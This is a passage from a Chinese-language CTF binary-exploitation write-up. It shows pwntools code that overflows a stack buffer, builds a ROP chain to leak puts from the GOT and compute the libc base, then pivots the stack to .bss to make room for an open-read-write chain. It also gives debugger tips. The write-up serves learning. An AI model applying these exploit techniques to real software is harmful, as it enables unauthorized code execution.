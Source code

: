 ```bash
pl = 'a'*0x108 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(0x40125B)
sl(pl)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_addr - libc.sym["puts"]
leak('libc_base ',libc_base)
#duan()
```

这里说一个小技巧，就是我们泄露出来地址，在下断点后，用 vmmap 命令可以确认一下

[![](assets/1708654729-2fc079deada0b2ebb9e0546877b0a28d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011806-034ba636-d014-1.png)  
然后因为溢出空间不够 orw，所以先来一步栈迁移

[![](assets/1708654729-d4613e85c289e1cdcc2c931036cfae34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011814-07a0cc16-d014-1.png)

```bash
bss=0x404200
pl='a'*0x100+p64(bss)+p64(0x401276)
s(pl)
pl='a'*0x100+p64(bss+0x100)+p64(0x401276)
s(pl)
```

因为这里偏移是 0x100，所以第二次的 rbp 设置的 bss+0x100

[![](assets/1708654729-d72a72c27e2f49dd675f7421451395d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011826-0f1aa962-d014-1.png)  
第一次输入后，然后在 0x404100 处读入
